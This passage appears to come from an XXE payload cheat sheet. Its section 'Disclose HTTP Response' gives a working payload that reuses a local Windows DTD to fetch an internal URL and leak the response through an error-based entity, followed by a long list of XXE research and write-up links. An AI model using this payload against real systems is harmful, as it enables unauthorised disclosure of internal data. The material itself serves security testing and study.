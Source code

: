 ### Disclose HTTP Response:

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

## References

* [XML External Entity (XXE) Processing - OWASP](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)
* [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [Detecting and exploiting XXE in SAML Interfaces](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html) - 6. Nov. 2014 - Von Christian Mainka
* [[Gist] staaldraad - XXE payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [[Gist] mgeeky - XML attacks](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)
* [Exploiting xxe in file upload functionality - BLACKHAT WEBCAST - 11/19/15 - Will Vandevanter - @_will_is_](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
* [XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer)](http://en.hackdig.com/08/28075.htm)
* [From blind XXE to root-level file read access - December 12, 2018 by Pieter Hiele](https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/)
* [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/) April 11, 2014 by  detectify
* [Blind OOB XXE At UBER 26+ Domains Hacked](http://nerdint.blogspot.hk/2016/08/blind-oob-xxe-at-uber-26-domains-hacked.html) August 05, 2016 by Raghav Bisht
* [OOB XXE through SAML](https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf) by Sean	Melia @seanmeals
* [XXE in Uber to read local files](https://httpsonly.blogspot.hk/2017/01/0day-writeup-xxe-in-ubercom.html) 01/2017
* [XXE inside SVG](https://quanyang.github.io/x-ctf-finals-2016-john-slick-web-25/) JUNE 22, 2016 by YEO QUAN YANG
* [Pentest XXE - @phonexicum](https://phonexicum.github.io/infosec/xxe.html)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) - 12/12/2018 - Arseniy Sharoglazov
* [Web Security Academy >> XML external entity (XXE) injection - 2019 PortSwigger Ltd](https://portswigger.net/web-security/xxe)
* [Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation) - July 16 2019 by Philippe Arteau
* [EXPLOITING XXE WITH EXCEL - NOV 12 2018 - MARC WICKENDEN](https://www.4armed.com/blog/exploiting-xxe-with-excel/)
* [excel-reader-xlsx #10](https://github.com/jmcnamara/excel-reader-xlsx/issues/10)
* [Midnight Sun CTF 2019 Quals - Rubenscube](https://jbz.team/midnightsunctfquals2019/Rubenscube)
* [SynAck - A Deep Dive into XXE Injection](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/) - 22 July 2019 - Trenton Gordon
* [Synacktiv - CVE-2019-8986: SOAP XXE in TIBCO JasperReports Server](https://www.synacktiv.com/ressources/advisories/TIBCO_JasperReports_Server_XXE.pdf) - 11-03-2019 - Julien SZLAMOWICZ, Sebastien DUDEK
* [XXE: How to become a Jedi](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_yarbabin_XXE_Jedi_Babin.pdf) - Zeronights 2017 - Yaroslav Babin
* [Payloads for Cisco and Citrix - Arseniy Sharoglazov](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

